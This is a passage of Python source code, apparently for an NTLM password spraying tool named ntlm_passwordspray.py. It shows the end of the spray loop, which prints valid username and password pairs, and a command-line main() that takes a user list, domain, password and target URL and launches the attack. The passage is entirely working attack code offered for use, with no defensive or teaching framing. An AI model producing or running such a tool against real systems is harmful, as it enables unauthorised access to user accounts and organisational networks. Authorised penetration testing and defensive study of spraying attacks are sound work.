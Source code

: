 ```python
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])
```
